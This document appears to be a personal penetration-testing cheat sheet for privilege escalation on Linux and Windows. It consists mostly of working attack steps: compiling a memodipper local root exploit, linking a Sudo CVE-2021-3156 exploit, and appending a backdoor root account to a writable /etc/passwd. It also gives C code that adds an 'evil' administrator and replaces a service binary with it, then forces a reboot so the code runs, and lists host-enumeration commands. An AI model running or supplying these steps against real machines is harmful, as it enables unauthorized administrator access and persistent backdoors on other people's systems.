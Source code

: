 ```yaml
---
layout: post
title:  "privesc - linux - general"
date:   2022-01-01
categories: linux
---
```


## Ubuntu 11.10

```
$ cat /etc/issue
Ubuntu 11.10 \n \l

$ gcc memodipper.c -o mem
$ chmod +x mem
$ ./mem
```

## Sudo exploit CVE-2021-3156 - linpeas

```bash
https://github.com/worawit/CVE-2021-3156/blob/main/exploit_userspec.py
```

## writable /etc/passwd

```bash
openssl passwd evil
<password>
```

```
echo "root2:<password>:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```

```
Password: evil
```

## windows

```bash
whoami
net user <username>
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
tasklist /SVC
ipconfig /all
route print
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
schtasks /query /fo LIST /v
wmic product get name, version, vendor
wmic qfe get Caption, Description, HotFixID, InstalledOn
accesschk.exe -uws "Everyone" "C:\Program Files"
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
mountvol

powershell --> driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path

Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}

reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
```

## Insecure File Permissions

- listing running services

```bash
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```

- file permission

```bash
icacls "C:\Program Files\path\to\suspicious.exe"
```

kali build the exploit code

- exploit code

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user evil Ev!lpass /add");
  i = system ("net localgroup administrators evil /add");
  
  return 0;
}
```

```bash
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```


#### windows replace the original exe with the malicious one

```
move "C:\Program Files\path\to\suspicious.exe" "C:\Program Files\path\to\suspicious_old.exe"
```

```
move adduser.exe "C:\Program Files\path\to\suspicious.exe"
```

```
dir "C:\Program Files\path\to\"
```

##### restart the service

```
net stop suspicious
System error 5 has occurred.

Access is denied.
```

Unfortunately, it seems that we do not have enough privileges to stop the suspicious service. This is expected as most services are managed by administrative users.


```bash
wmic service where caption="suspicious" get name, caption, state, startmode
```

```bash
Caption     Name     StartMode  State
suspicious  suspicious  Auto       Running
```

```bash
whoami /priv
...
SeShutdownPrivilege           Shut down the system                 Disabled
```

```bash
shutdown /r /t 0
```

## UAC



## linux

```
id
cat /etc/passwd
hostname
cat /etc/issue
cat /etc/*-release
uname -a
ps aux
netstat -ano
ip a
/sbin/route
ss -anp
ls -lah /etc/cron*
cat /etc/crontab
dpkg -l
find / -writable -type d 2>/dev/null
cat /etc/fstab --> mount
/bin/lsblk
lsmod --> /sbin/modinfo <filename given from lsmod>
find / -perm -u=s -type f 2>/dev/null